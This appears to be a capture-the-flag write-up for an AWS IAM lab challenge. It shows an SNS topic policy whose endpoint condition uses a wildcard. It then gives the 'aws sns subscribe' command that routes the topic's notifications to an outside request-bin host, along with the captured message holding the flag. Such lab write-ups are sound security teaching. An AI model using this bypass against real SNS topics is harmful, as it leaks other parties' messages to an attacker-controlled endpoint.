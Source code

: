 # Challenge 3

**Challenge 3:** https://bigiamchallenge.com/challenge/3

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f6eeae81-e16d-4eef-9b81-efe28552ffa7)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/54ec8c68-a9ca-4c0c-ade5-9f48fc427390)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/ccaee9d9-ba02-4c4b-98c7-180e87db9185)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/b3123301-b3d8-4ef2-927a-513adef70f7d)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/4e9f8d5b-807c-46af-99eb-0eefaea976fb)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/bd6c9656-9d6b-4ebe-a952-4037404b1971)

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

```
aws sns subscribe --topic-arn "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications" --protocol https --notification-endpoint https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

Use https://pipedream.com/requestbin and https://jsonformatter.org/json-parser

```sh
{
  "event": {
    "method": "POST",
    "path": "/@tbic.wiz.io",
    "query": {},
    "client_ip": "72.21.217.142",
    "url": "https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io",
    "headers": {
      "host": "eo3cger2lfp4pnh.m.pipedream.net",
      "x-amzn-trace-id": "Root=1-665ce0a0-17e9424a0360c75704188102;Parent=3772c3f65797a758;Sampled=0;Lineage=36680206:0",
      "content-length": "963",
      "x-amz-sns-message-type": "Notification",
      "x-amz-sns-message-id": "362d4642-8a4f-5772-8d04-189468afc901",
      "x-amz-sns-topic-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "x-amz-sns-subscription-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f",
      "content-type": "text/plain; charset=UTF-8",
      "user-agent": "Amazon Simple Notification Service Agent",
      "accept-encoding": "gzip,deflate"
    },
    "body": {
      "Type": "Notification",
      "MessageId": "362d4642-8a4f-5772-8d04-189468afc901",
      "TopicArn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "Message": "{wiz:always-suspect-asterisks}",
      "Timestamp": "2024-06-02T21:14:08.547Z",
      "SignatureVersion": "1",
      "Signature": "ULouJsa9ad6igZIwBaE5Xh/iDVFVOuZ6BUmEaqnlu9NsQpu5/JuDJ1OWuEd8vrFukz83NHFQmQX0csPORa51dCj9aGLwNHalosgDG3aFfkkTsaWD53kCEKeWiMxp6TxtmKQJa2WqWtTCh74cd3X98weo05qNbH1cUh23w9mbnhmlm4kS0K1rUFOWCnFMh05l78yFOyLgihnQ5Toyp5Y/D0SXEn4/8XbXKght9WF3fcLuoV06CKOaOcqhEOUFHB99IsNlCLGyGO9deDcGGXzRqgUph1OfXvTk+HdtGPqFFt4z7Nbwn2vm7F/nFiEQ+EYKA+70Jj+dq/mLk4VvcZhHJg==",
      "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-60eadc530605d63b8e62a523676ef735.pem",
      "UnsubscribeURL": "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f"
    }
  },
  "context": {
    "id": "2hLABTcXapAu8qfEUjs5sVkUFmg",
    "ts": "2024-06-02T21:14:08.649Z",
    "pipeline_id": null,
    "workflow_id": "p_BjCaLL8",
    "deployment_id": "d_dlsdrnRe",
    "source_type": "COMPONENT",
    "verified": false,
    "hops": null,
    "test": false,
    "replay": false,
    "owner_id": "o_9WIm0bJ",
    "platform_version": "3.49.1",
    "workflow_name": "RequestBin",
    "resume": null,
    "emitter_id": "hi_G7HQXbD",
    "trace_id": "2hLABWBu6tqz7rXdKS9vlkJkHjW"
  }
}
```

